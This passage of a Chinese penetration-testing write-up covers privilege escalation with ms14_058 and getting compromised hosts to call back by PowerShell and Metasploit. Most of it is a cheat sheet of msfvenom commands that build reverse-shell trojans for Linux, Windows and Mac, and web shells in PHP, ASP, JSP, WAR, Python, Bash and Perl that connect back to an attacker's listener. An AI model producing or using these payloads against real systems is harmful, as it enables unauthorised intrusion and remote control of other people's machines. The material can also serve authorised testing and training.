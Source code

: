 利用 ms14\_058 提权成功

### powershell 上线：

通过制作 powershell 来上线：

[![](assets/1701827767-6c5e93b33fcdbb2dfe3d466714dbe22b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202191228-ae005d38-9103-1.png)

### MSF 上线：

#### msf 生成木马：

```bash
Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=< Your IP Address> LPORT=< Your Port to Connect On> -f elf > shell.elf

Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe > shell.exe

Mac
msfvenom -p osx/x86/shell_reverse_tcp LHOST= LPORT= -f macho > shell.machoWeb Payloads

PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST= LPORT= -f raw > shell.php

ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f asp > shell.asp

JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f raw > shell.jsp

WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f war > shell.war

Python
msfvenom -p cmd/unix/reverse_python LHOST= LPORT= -f raw > shell.py

Bash
msfvenom -p cmd/unix/reverse_bash LHOST= LPORT= -f raw > shell.sh

Perl
msfvenom -p cmd/unix/reverse_perl LHOST= LPORT= -f raw > shell.pl
```
